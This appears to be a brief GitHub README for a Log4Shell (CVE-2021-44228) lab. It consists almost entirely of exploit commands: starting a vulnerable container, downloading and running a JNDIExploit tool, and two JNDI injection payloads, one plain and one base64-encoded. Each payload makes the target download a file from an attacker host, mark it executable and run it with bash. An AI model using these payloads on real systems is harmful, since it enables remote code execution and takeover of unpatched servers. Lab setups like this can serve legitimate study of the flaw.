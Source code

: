 # # CVE-2021-44228

```
docker run -it --rm -p 8080:8080 securitrust/cve-2021-44228
```

```
wget https://github.com/SecuriTrust/HackTools/raw/main/JNDIExploit/JNDIExploit.v1.2.zip
```

```
unzip JNDIExploit.v1.2.zip
```

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.25.38.66 -p 8888
```

```
${jndi:ldap://172.25.38.66:1389/Basic/Command/Base64/wget 172.25.38.66:8090/exp && chmod 777 exp && bash exp}
```

```
${jndi:ldap://172.25.38.66:1389/Basic/Command/Base64/d2dldCAxNzIuMjUuMzguNjY6ODA5MC9leHAgJiYgY2htb2QgNzc3IGV4cCAmJiBiYXNoIGV4cA}
```


<img src="images/1.png" alt="Image 1" width="800"/><br>
